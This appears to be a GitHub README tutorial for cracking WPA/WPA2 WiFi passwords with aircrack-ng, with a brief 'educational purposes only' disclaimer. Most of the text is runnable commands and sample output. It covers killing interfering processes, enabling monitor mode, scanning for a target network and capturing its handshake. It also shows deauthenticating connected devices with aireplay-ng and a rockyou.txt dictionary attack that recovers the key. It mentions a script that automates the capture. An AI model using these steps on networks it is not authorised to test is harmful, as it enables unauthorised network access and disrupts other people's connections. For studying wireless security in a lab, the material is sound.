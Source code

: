 cracking WPA/WPA2 secured WiFi networks with the aircrack-ng suite

> <picture>
>   <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/Mqxx/GitHub-Markdown/main/blockquotes/badge/light-theme/warning.svg">
>   <img alt="Warning" src="https://raw.githubusercontent.com/Mqxx/GitHub-Markdown/main/blockquotes/badge/dark-theme/warning.svg">
> </picture><br>
> This guide is for educational purposes only and should not be used for any illegal activities. The author and publisher is not liable for any illegal use.

## Requirements

-   [Kali Linux](https://www.kali.org/get-kali)
-   [aircrack-ng suite](https://www.aircrack-ng.org) (pre-installed on Kali Linux)
-   external WiFi adapter with [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) and packet injection capabilities ([PiAEK AC-1200 mpbs](https://www.amazon.de/PiAEK-Adapter-Wireless-Verl%C3%A4ngerungskabel-Unterst%C3%BCtzung/dp/B08BHY92R4) used in this guide)
-   drivers for the external WiFi adapter ([rtl8812au](https://github.com/aircrack-ng/rtl8812au) used in this guide)
-   run `sudo su` in the shell to stay in root mode and not have to run every command with `sudo`

## Walkthrough

### Enable monitor mode

[Monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) allows the WiFi adapter to capture all WiFi packages in the air. Before enabling monitor mode, make sure the WiFi adapter is connected to the system. Check that, by running `iwconfig`. The adapter should be listed with a name like `wlan0` or `wlan1`:

```bash
wlan0     unassociated  ESSID:""  Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency=2.412 GHz  Access Point: Not-Associated
          Sensitivity:0/0
          Retry:off   RTS thr:off   Fragment thr:off
          Power Management:off
          Link Quality:0  Signal level:0  Noise level:0
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

To enable monitor mode, we first need to stop processes that might interfere with the adapter:

```bash
sudo airmon-ng check kill
```

Next, we can enable monitor mode on the adapter:

```bash
sudo airmon-ng start wlan0 # replace wlan0 with the name of your adapter
```

### Look for target network

To find the target network, we can use `airodump-ng`, which is a tool from the _aircrack-ng_ suite. This tool lists all WiFi networks in the area, including their BSSID, ESSID, channel, etc.:

```bash
airodump-ng wlan0 # replace wlan0 with the name of your adapter (your adapter might have a different name after enabling monitor mode, to check run iwconfig)
```

```
CH  0 ][ Elapsed: 0 s ][ 2024-04-18 18:55

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AA:AB:AC:AD:AE:AF  -99        5        0    0   1  100   WPA2 CCMP   PSK  myhomenetwork
```

write down the BSSID and channel of the target network.

### Capture handshake

When a device connects to a WiFi network, a so-called [handshake](https://medium.com/@hackersprey/wifi-handshake-cf1f3397a5cc) is exchanged between the device and the access point. This handshake can be captured and used to crack the WiFi password. To capture the handshake, we need to run `airodump-ng` again, but this time we need to specify the BSSID and channel of the target network:

```bash
airodump-ng -d AA:AB:AC:AD:AE:AF -c 1 --write handshake wlan0 # replace AA:AB:AC:AD:AE:AF with the BSSID of the target network, 1 with the channel of the target network and wlan0 with the name of your adapter
```

this command starts listening for the handshake. Once a device connects to the target network, the handshake will be captured and saved to a file called `handshake-01.cap`. An indicator will show when the handshake is captured; it will appear on the first line after the date and time (you can safely stop the process with `Ctrl + C` after the handshake was captured):

```
CH  0 ][ Elapsed: 0 s ][ 2024-04-18 18:55 ][ WPA handshake: AA:AB:AC:AD:AE:AF
```

Optionally, you can speed up the process by deauthenticating all device currently connected to the target network and forcing them to reconnect and establish a new handshake:

```bash
# --deauth specifies the number of deauthentications to send (5 in this case)
aireplay-ng --deauth 5 -a AA:AB:AC:AD:AE:AF wlan0 # replace AA:AB:AC:AD:AE:AF with the BSSID of the target network and wlan0 with the name of your adapter
```

### Crack the password

To crack the password, we need to use a wordlist. A wordlist is a list of possible passwords that will be tried one by one until the correct password is found. In this guide, we will use the `rockyou.txt` wordlist, which is a popular wordlist that comes pre-installed on Kali Linux. To crack the password, we need to run `aircrack-ng` and specify the wordlist and the captured handshake:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap
```

```
                               Aircrack-ng 1.7

      [00:00:08] 40629/14344392 keys tested (4797.50 k/s)

      Time left: 49 minutes, 41 seconds                          0.28%

                           KEY FOUND! [ test1234 ]


      Master Key     : 8F 5D 7E B8 B7 72 54 75 43 E7 BE 33 66 36 DC C6
                       C6 99 AB 2B E6 5D C6 C1 40 B8 BD 66 52 A6 4A F4

      Transient Key  : 32 2B 40 BA 56 02 E0 2D E9 25 B4 89 AE D8 58 5A
                       08 73 1D 09 BD AE 94 B7 ED 14 9F BE 58 B5 30 85
                       65 C1 ED 9C C9 33 08 DA 83 84 99 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : B7 D9 4F 14 7A 29 6F 3E B3 5C F8 E5 C0 F8 E1 EF
```

And Voila! The password was cracked in only **8 seconds** after testing **40629** other passwords. In this case, the password was `test1234`.

## Script automation

Because the process of capturing the handshake is always the same and can be quite tedious, I've automated the process with a simple [bash script](dump.sh). It takes two parameters:

1. (required) the name of the target network
1. (optional) the name of the adapter - default: wlan0

it does all the steps until capturing the handshake and throws you directly into the _airodump-ng_ target network sniff. You only have to wait for the handshake to be captured and then run the _aircrack-ng_ command to crack the password.

<br><br>

_credits to:_

> [The Morpheus Tutorials](https://youtu.be/GLmpLeghM2Y?si=t45liQwGh7E92Oib)
